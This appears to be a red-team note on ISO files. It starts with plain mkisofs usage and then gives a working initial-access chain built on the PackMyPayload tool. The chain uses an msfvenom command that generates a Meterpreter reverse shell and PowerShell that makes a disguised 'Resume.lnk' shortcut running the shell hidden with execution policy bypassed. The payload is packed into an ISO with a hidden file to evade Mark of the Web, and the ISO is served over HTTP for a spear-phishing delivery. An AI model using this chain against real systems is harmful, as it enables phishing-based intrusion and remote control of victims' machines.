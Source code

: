 # ISO File

## 01 - Manual

### 1.1 - Dependencies

- **Debian-based distros**

`$ sudo apt install mkisofs`

- **Arch-based distros**

`$ sudo pacman -S cdrkit`

### 1.2 - Usage

`$ mkisofs -o file.iso file.txt`

`$ mkisofs -r -J -o file.iso /path/to/directory`

## 02 - Automated

### 2.1 - Install

- **Install the Visual C++ Build Tools**

- https://visualstudio.microsoft.com/visual-cpp-build-tools

- **Turn off aliases for Python**

Search **Manage app execution aliases**

![[01 - Windows Search Bar.png]]

Turn off the **App Installers**

![[02 - Manage app execution aliases.png]]

- **Then install the Python packages**

```
C:\> git clone https://github.com/mgeeky/PackMyPayload.git
C:\> cd PackMyPayload
C:\PackMyPayload> python -m pip install -r requirements.txt
```

### 2.2 - Help Menu

```
C:\PackMyPayload> python .\PackMyPayload.py -h
usage:
+      o     +              o   +      o     +              o
    +             o     +           +             o     +         +
    o  +           +        +           o  +           +          o
-_-^-^-^-^-^-^-^-^-^-^-^-^-^-^-^-^-_-_-_-_-_-_-_,------,      o
   :: PACK MY PAYLOAD (1.1.0)       -_-_-_-_-_-_-|   /\_/\
   for all your container cravings   -_-_-_-_-_-~|__( ^ .^)  +    +
-_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-__-_-_-_-_-_-_-''  ''
+      o         o   +       o       +      o         o   +       o
+      o            +      o    ~   Mariusz Banach / mgeeky    o
o      ~     +           ~          <mb [at] binary-offensive.com>
    o           +                         o           +           +

Usage: ./package.py [options] <infile> <outfile>

optional arguments:
  -h, --help            show this help message and exit

Required arguments:
  infile                Input file/directory to be packaged into output archive/container
  outfile               Output file with extension pointing at output format

Options:
  -v, --verbose         Verbose mode.
  -d, --debug           Debug mode.
  -N, --nocolor         Dont use colors in text output.
  -i BACKDOOR, --backdoor BACKDOOR
                        Instead of generating blank new output container/archive, will backdoor existing input one.
  -n NAME, --filename NAME
                        Package input file into archive/container under this filename (may contain relative path).
  -p PASSWORD, --password PASSWORD
                        If output archive/container format supports password protection, use this password to protect
                        output file.
  --out-format {zip,7z,iso,img,cab,pdf,vhd,vhdx}
                        Explicitely define output format disregarding output file's extension. Can be one of
                        following: zip, 7z, iso, img, cab, pdf, vhd, vhdx
  --hide HIDE           Set hidden attribute on file(s) in ISO

VHD specific options:
  --vhd-size SIZE       VHD dynamic size in MB. Default: 1024
  --vhd-letter LETTER   Drive letter where to mount VHD drive. Default: will pick unused one at random.
  --vhd-filesystem FS   Filesystem to be used while formatting VHD. Default: FAT32. Supported: fat, fat32, ntfs

=====================================================

Supported container/archive formats:

        - zip
        - 7z
        - iso
        - img
        - cab
        - pdf
        - vhd
        - vhdx

=====================================================
```

### 2.3 - Usage

#### 2.3.1 - Pack an ISO File

`C:\PackMyPayload> python PackMyPayload.py Archived_Folder.zip ISO_File.iso`

### 2.4 - Use Cases

#### 2.4.1 - Powershell Loader via Shortcut Lnk

`$ msfvenom -p windows/x64/meterpreter/reverse_http lhost=<IP> lport=80 -f psh-cmd | sed 's/%COMSPEC% \/b \/c start \/b \/min powershell\.exe -nop -w hidden -e //g' | base64 -d > shell.ps1`

Transfer the generated powershell reverse shell to the windows box to create .lnk shortcut and pack them into an ISO file

`$ cat pwsh_cmds.txt`

---

```powershell
$shortcutPath = "C:\Users\" + $env:username + "\Desktop\Resume.lnk"  
$WshShell = New-Object -ComObject WScript.Shell  
$Shortcut = $WshShell.CreateShortcut($shortcutPath)  
$Shortcut.TargetPath = 'conhost.exe'  
$Shortcut.Arguments = "--headless powershell.exe -noni -nop -ep bypass -file shell.ps1"  
$Shortcut.Description = "A shortcut backdoor"  
$Shortcut.IconLocation = 'C:\path\to\document.docx'  
$Shortcut.hotkey = 'CTRL+C' # A hotkey to trigger the payload  
$Shortcut.WindowStyle = 7  
$Shortcut.WorkingDirectory = "C:\Users\" + $env:username + "\Public"  
$Shortcut.Save()
```

`C:\PackMyPayload> python PackMyPayload.py --hide C:\path\to\directory\shell.ps1 --out-format iso C:\path\to\directory ISO_File.iso -v`

Then copy the ISO File to your attacker machine and start a web server to simulate the spear phishing attack then finally you'll see **MOTW (Mark of the Web)** has not contaminated the `.lnk` shortcut file

`$ sudo python -m http.server 80`

## References

- [Bumblebee Returns with New Infection Technique](https://blog.cyble.com/2022/09/07/bumblebee-returns-with-new-infection-technique/)

- [Recreating An ISO Payload for Fun and No Profit](https://blog.sunggwanchoi.com/recreating-an-iso-payload-for-fun-and-no-profit/)

- [DLL Proxy Loading Your Favorite C Implant](https://redteaming.co.uk/2020/07/12/dll-proxy-loading-your-favorite-c-implant/)

- [PackMyPayload](https://github.com/mgeeky/PackMyPayload)

- [Visual C++ Build Tools](https://visualstudio.microsoft.com/visual-cpp-build-tools/)

- [Tommelo LNK2Pwn](https://github.com/tommelo/lnk2pwn)

- [IT-Gorillaz LNK2Pwn](https://github.com/it-gorillaz/lnk2pwn)